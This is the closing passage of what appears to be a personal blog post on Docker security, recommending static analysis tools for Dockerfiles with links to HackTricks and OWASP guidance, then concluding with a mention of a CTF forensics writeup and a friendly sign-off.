- **Using Static Analysis Tools**. As someone who has developed a Docker container at 12 am, albeit for research instead of production, it is very easy to make mistakes and allow for things to be overly permissive. Both the [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker#securing-your-docker) and [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html#rule-9-use-static-analysis-tools) entries list many tools that can be used to comb through Dockerfiles to scan for known vulnerabilities and issues in the configurations.

## V. Conclusion
Docker is only scratching the surface of what could be a very in-depth exploration of containerization and virtualization technologies, far beyond anything I know on my own. We didn't even get to *dive* into some stuff about Docker forensics, but I do touch on it in my [HTB University CTF](https://an00brektn.github.io/uni-ctf-the-quick-ones/#forensics-peel-back-the-layers) writeup on "Peel Back The Layers". That being said, I hope this was a useful intro to not only the software engineers or the security people, but anyone who does somewhat extensive work on computers. Docker is a super valuable tool and is something that can really help in a lot of situations.

Hope you like the new domain name too. I quite like it.

Until next time! :D